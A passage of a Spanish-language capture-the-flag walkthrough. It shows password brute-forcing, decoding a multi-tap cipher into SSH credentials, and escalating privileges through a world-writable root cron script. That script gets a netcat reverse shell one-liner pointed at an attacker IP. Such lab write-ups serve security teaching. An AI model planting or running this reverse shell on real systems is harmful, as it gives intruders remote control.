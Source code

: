 Ahora crearemos un script en Python que prueba con todas las palabras como parámetro en el archivo ejecutable. Para encontrar la palabra correcta.

![](/assets/images/Psycho/image043.png)

Podemos observar que logramos obtener la palabra correcta mediante nuestro script en Python. Además, recibimos un numero codificado.

Ahora si digitamos este numero cifrado en nuestro motor de búsqueda de Google, obtenemos una herramienta en línea para desencriptar este tipo de series de números que están utilizando un cifrado basado en como se ingresaba texto en un telefono Multi-Tap. Donde los usuarios debían presionar repetidamente las teclas numéricas correspondientes a las letras que deseaban escribir.

![](/assets/images/Psycho/image044.png)

![](/assets/images/Psycho/image045.png)

![](/assets/images/Psycho/image046.png)

Podemos decodificar manualmente la seria de números utilizando el teclado numérico de la imagen o mediante la herramienta en línea del primer resultado de nuestra búsqueda.

Ahora si analizamos el contenido del mensaje decodificado, podemos suponer que un usuario local en el sistema destino es kidman y que el mensaje decodificado puede ser su contraseña de inicio de sesión. Pondremos a prueba esta hipótesis, autenticándonos mediante el servicio SSH con estas supuestas credenciales

![](/assets/images/Psycho/image047.png)

![](/assets/images/Psycho/image048.png)

Podemos observar que nuestra hipótesis estaba en lo correcto y logramos acceder al sistema destino. Además, logramos visualizar la primera bandera.

## FASE ESCALADA PRIVILEGIOS

Ahora buscaremos un vector de escalada privilegio en el sistema de archivos del sistema destino.

![](/assets/images/Psycho/image049.png)

![](/assets/images/Psycho/image050.png)

Podemos observar que el usuario root ha programado una tarea cron en el archivo crontab general del sistema. Además, esta tarea cron viene a ser un script en Python que se ejecutara cada medio minuto. Además, podemos observar que el permiso de escritura para otros usuarios que no pertenecen al grupo primario root está habilitado en el script. Por lo tanto, si podemos modificar su contenido.

Ahora agregaremos estas líneas de código al script en Python para que se ejecute una reverse Shell, pero antes debemos habilitar el puerto 1500 en modo listening en nuestro sistema.
- `Import os`
- `os.system(mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1500 >/tmp/f)`

![](/assets/images/Psycho/image051.png)
